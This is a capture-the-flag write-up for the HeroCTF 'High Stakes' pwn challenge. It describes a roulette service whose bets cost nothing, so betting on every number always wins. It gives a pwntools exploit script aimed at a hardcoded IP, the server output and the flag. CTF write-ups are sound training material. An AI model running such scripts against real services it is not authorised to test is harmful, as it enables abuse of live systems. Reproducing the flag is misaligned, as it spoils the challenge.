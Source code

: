 # High Stakes

### Category

Pwn

### Description

This casino is SOOOO totally rigged. 
I have lost everything .. I literally lost 300 times in a row !
This does not seem possible.
I really wanted to buy the flag from the shop, but right now I'm so broke I'm not even allowed to think about it.
Lucky as you are, you'll manage to win enough money to buy it for me, right bro ?

```
Host : pwn.heroctf.fr
Port : 9001
```

Format : **Hero{flag}**  
Author : **iHuggsy**

### Write up

We see that a flag costs 3600$. We have 100$ to begin with.

If we bet normally, we lose. The casino seems rigged.

After a bit of poking around, we see that there's a logic vulnerability : the program doesn't take any money for placing a bet.

We can then bet 100$ on all of the numbers, and we'll win for sure.

We just have to buy the flag from the shop afterwards.

```py
from pwn import *
import time

def microsleep():
    pass

p = process(['nc', '161.97.134.238', '7000'])
time.sleep(5)
print(p.clean())

for i in range(37):
    p.sendline('1')
    microsleep()
    print(p.clean())
    p.sendline(str(i))
    microsleep()
    print(p.clean())
    p.sendline('100')
    microsleep()
    print(p.clean())

p.sendline('3')
print(p.clean())
microsleep()
p.sendline('4')
print(p.clean())
microsleep()
p.sendline('5')
print(p.clean())
microsleep()
p.sendline('3')
print(p.clean())
```

Surely enough, we receive 
>>> b"\n Welcome to the shop ! What do you want to buy ?\n1 : Lucky charm (100$)\n >>> Could it unrig the game ? I doubt it.\n2 : Alcohol (3$)\n >>> Will it do something ? (spoiler : nope)\n3 : The FLAG ! (3600$)\n >>> That's what you want, right ? ;)\n>>> "
b'There is your flag king ! Hero{g4MBl1nG_f0R_dA_fL4G}\n\n1 : Place a bet\n2 : See your current balance\n3 : See your current bets\n4 : Run the roulette BOOSTED x72 ! (totally not rigged btw)\n5 : Shop\n6 : Top-up your account\n7 : Exit\n>>> '

### Flag

Hero{g4MBl1nG_f0R_dA_fL4G}
